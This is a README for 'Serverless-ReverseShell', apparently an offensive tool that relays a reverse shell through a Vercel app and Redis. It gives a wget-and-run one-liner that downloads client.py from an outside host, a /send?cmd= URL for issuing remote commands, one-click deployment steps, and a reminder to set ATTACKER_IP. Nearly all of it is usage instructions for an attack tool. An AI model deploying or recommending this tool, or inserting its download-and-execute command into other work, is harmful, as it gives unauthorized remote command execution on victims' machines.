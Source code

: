 
# Serverless-ReverseShell


## Demo

https://chat.fjh1997.top/

## Usage

make client connect
```
wget https://chat.fjh1997.top/download -o client.py && python3 client.py
```
Then use https://chat.fjh1997.top/send?cmd=xxx to get shell!

## Running Locally

```bash
npm i -g vercel
vercel dev
```

Your application is now available at `http://localhost:3000`.

## One-Click Deploy

Deploy the example using [Vercel](https://vercel.com?utm_source=github&utm_medium=readme&utm_campaign=vercel-examples):

[![Deploy with Vercel](https://vercel.com/button)](https://vercel.com/new/clone?repository-url=https://github.com/fjh1997/Serverless-ReverseShell/tree/main/)

Remember to set the environment variable REDIS_URL to the address from [redislabs](https://app.redislabs.com/)
And also the ATTACKER_IP in  client.py :-)
